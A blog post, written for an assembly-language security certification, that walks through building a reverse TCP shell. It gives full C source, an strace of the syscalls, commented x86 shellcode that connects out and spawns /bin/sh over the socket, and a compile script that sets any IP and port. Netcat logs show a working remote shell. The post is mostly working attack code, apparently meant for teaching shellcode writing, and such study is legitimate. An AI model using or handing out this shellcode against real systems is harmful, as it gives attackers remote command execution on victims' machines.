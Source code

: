 ```yaml
---
title:  "[SLAE 2] Reverse TCP Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Reverse TCP Shellcode

This is the second assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam: building a reverse TCP shellcode. As for the previous _`bind tcp`_ one, I've started with a C program that creates a reverse TCP connection:
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int sockfd = 0;
    int ret = 0;
 
    struct sockaddr_in dest;
 
    // Create an un-named socket. returns socket descriptor
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&dest, '0', sizeof(struct sockaddr));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("127.0.0.1"); 
    dest.sin_port = htons(8888);
 
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr));
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(sockfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}
```

I've then compiled the reverse shell:
```bash
$ gcc -Wall shell_reverse_tcp.c -o shell_reverse_tcp
```

And started the listener to test: 
```bash
$ nc -lvvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
```

And in another terminal executed the reverse shellcode: 
```bash
$ ./shell_reverse_tcp
```

Sure-enough,the listener received a remote connection:
```bash
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 60226)
whoami
liv
```

To see the system calls necessary to implement this in assembly, I've used _`strace`_:
```bash
$ strace ./shell_reverse_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0
```

Next is the commented assembly source code implementing the system calls from above:
```assembly
global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = sockfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; sockfd is returned in eax. Save into edx    

    ; 2. connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    push <IP>       ; IP address
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; sockfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 3       ; socketcall type of call: SYS_CONNECT (3)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 4. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80
```

The IP address and port are replaced by a bash script, which does the compilation and linking:
```bash
$ ./compile.sh 
Usage: compile.sh {ip} {port}
$ ./compile.sh 127.0.0.2 8899
[+] Replacing IP with 0x0200007f
[+] Replacing port number with 0xc322
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Cleaning ...
[+] Done!
$ nc -lvvp 8899 
Listening on [0.0.0.0] (family 0, port 8899)
$ ./shell_reverse_tcp
Connection from [127.0.0.1] port 8899 [tcp/*] accepted (family 2, sport 41801)
whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
